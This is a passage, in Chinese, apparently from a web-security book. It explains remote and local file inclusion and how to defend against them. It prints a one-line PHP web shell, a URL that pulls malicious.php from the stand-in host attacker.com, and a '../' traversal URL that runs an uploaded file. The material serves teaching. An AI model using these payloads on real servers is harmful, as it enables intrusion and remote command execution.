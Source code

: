 ```
<?PHP system($_GET["cmd"]);
?>
```

如果攻击者在*example.com*上加载此页面，网站将执行位于攻击者服务器上的*malicious.php*中包含的代码。恶意脚本将使目标服务器执行系统命令`ls`：

```
http://example.com/?page=http://attacker.com/malicious.php?cmd=ls
```

注意，这个功能同样也容易受到 SSRF 和 XSS 攻击的影响。该端点容易受到 SSRF 攻击，因为页面可以加载本地系统和网络的信息。攻击者还可以使页面加载恶意的 JavaScript 文件，并诱使用户点击以执行反射型 XSS 攻击。

另一方面，*本地文件包含*发生在应用程序以不安全的方式包含文件时，但不允许包含远程文件。在这种情况下，攻击者需要首先将恶意文件上传到本地机器，然后通过使用本地文件包含来执行它。我们可以稍微修改之前的例子。以下 PHP 文件首先获取 HTTP GET 参数`page`，然后在将`page`与包含用户可以加载的文件的目录名称拼接后，调用 PHP 的`include`函数：

```
<?php // Some PHP code $file = $_GET["page"]; include "lang/".$file; // Some PHP code
?>
```

该网站的*lang*目录包含多个语言版本的首页。例如，用户可以访问*http://example.com/?page=de-index.php*和*http://example.com/?page=en-index.php*来分别访问德语和英语首页。这些网址将导致网站加载页面*/var/www/html/lang/de-index.php*和*/var/www/html/lang/en-index.php*，以显示德语和英语的首页。

在这种情况下，如果应用程序没有对`page`参数的可能值施加任何限制，攻击者可以通过利用上传功能加载他们自己的页面。假设*example.com*允许用户上传所有类型的文件，并将它们存储在*/var/www/html/uploads/USERNAME*目录下。攻击者可以将一个恶意的 PHP 文件上传到*uploads*文件夹中。然后，他们可以使用`../`序列跳出*lang*目录，并在目标服务器上执行恶意上传的文件：

```
http://example.com/?page=../uploads/USERNAME/malicious.php
```

如果攻击者加载此 URL，网站将包含文件*/var/www/html/lang/../uploads/USERNAME/malicious.php*，该文件指向*/var/www/html/uploads/USERNAME/malicious.php*。

## 防护

为了防止代码注入，你应该避免将用户输入插入到需要执行的代码中。而且，由于用户输入可以通过应用程序解析的文件传入已评估的代码，你应该将用户上传的文件视为不可信的，并保护程序执行、解析或包含的现有系统文件的完整性。

为了防止文件包含漏洞，你应该避免基于用户输入来包含文件。如果这不可避免，请禁止包含远程文件，并创建一个允许的本地文件白名单，供程序包含。你还可以限制文件上传类型为某些安全文件类型，并将上传的文件托管在与应用程序源代码分开的环境中。

同时，避免直接调用系统命令，改用编程语言的系统 API。大多数编程语言都有内置函数，允许你在不冒命令注入风险的情况下执行系统命令。例如，PHP 有一个名为`mkdir(``DIRECTORY_NAME``)`的函数，你可以使用它来创建新目录，而不是调用`system("mkdir` `DIRECTORY_NAME``")`。

你应该为传入危险函数（如`eval()`或`include()`）的输入实现强大的输入验证。但这种技术不能作为唯一的保护措施，因为攻击者不断想出创新的方法绕过输入验证。

最后，保持更新补丁将防止应用程序的依赖关系引入 RCE 漏洞。应用程序的依赖关系，如开源包和组件，常常会将漏洞引入应用程序。这也被称为*软件供应链攻击*。

你还可以部署一个*Web 应用防火墙* *(**WAF**)*来阻止可疑的攻击。除了防止远程代码执行（RCE）外，这还可以帮助防止我在本书中早些时候讨论的一些漏洞，如 SQL 注入和 XSS。

如果攻击者确实在一台机器上成功实现了 RCE，你如何减少他们造成的危害？*最小权限原则* 规定，应用程序和进程应仅授予完成任务所需的最小权限。这是一种最佳实践，可以降低系统在遭受攻击时被危害的风险，因为即使攻击者攻破了一个低权限的用户或进程，他们也无法访问敏感文件和执行敏感操作。例如，当一个 Web 应用只需要对文件进行读取访问时，不应授予任何写入或执行权限。这是因为，如果攻击者劫持了一个以高权限运行的应用程序，攻击者就能够获得其权限。

## 寻找 RCE 漏洞
